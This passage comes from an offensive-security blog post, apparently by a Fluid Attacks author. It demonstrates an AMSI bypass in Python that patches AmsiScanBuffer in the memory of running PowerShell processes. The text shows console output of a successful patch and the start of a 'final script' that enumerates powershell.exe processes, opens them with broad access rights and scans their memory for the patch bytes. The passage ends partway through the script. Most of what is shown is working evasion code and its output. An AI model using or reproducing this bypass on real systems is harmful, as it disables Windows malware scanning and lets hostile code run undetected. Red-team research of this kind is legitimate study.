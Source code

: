 Let's check it:

```powershell
PS C:\Users\aroldan> python3 .\Documents\amsibypass.py
[+] Got process handle of PID powershell at 18760: 0x410
[+] Found base address of amsi.dll: 0x7ffd4c270000
[+] Address of AmsiScanBuffer found at 0x7ffd4c278260
[+] Success patching AmsiScanBuffer in PID 18760
```

Great!

### Profit

Now, let's check how it works:

<div class="imgblock">

![AMSI in action](https://res.cloudinary.com/fluid-attacks/image/upload/v1653763579/blog/amsi-bypass-python/success1.png)

</div>

Great! AMSI successfully bypassed again.
This time with a whole different process
using cross-process memory patching.

This is the final script.
I rearranged it
adding some functions for better readability:

```python
#!/usr/bin/env python3
#
# Script to dynamically path AmsiScanBuffer on every powershell process running
# that belongs to current user, or all processes if running as admin
#
# Author: Andres Roldan <aroldan@fluidattacks.com>
# LinkedIn: https://www.linkedin.com/in/andres-roldan/
# Twitter: https://twitter.com/andresroldan


import psutil
import sys
from ctypes import *


KERNEL32 = windll.kernel32
PROCESS_ACCESS = (
    0x000F0000 |        # STANDARD_RIGHTS_REQUIRED
    0x00100000 |        # SYNCHRONIZE
    0xFFFF
)
PAGE_READWRITE = 0x40


def getPowershellPids():
    ppids = [pid for pid in psutil.pids() if psutil.Process(pid).name() == 'powershell.exe']
    return ppids


def readBuffer(handle, baseAddress, AmsiScanBuffer):
    KERNEL32.ReadProcessMemory.argtypes = [c_ulong, c_void_p, c_void_p, c_ulong, c_int]
    while True:
        lpBuffer = create_string_buffer(b'', len(AmsiScanBuffer))
        nBytes = c_int(0)
        KERNEL32.ReadProcessMemory(handle, baseAddress, lpBuffer, len(lpBuffer), nBytes)
        if lpBuffer.value == AmsiScanBuffer or lpBuffer.value.startswith(b'\x29\xc0\xc3'):
```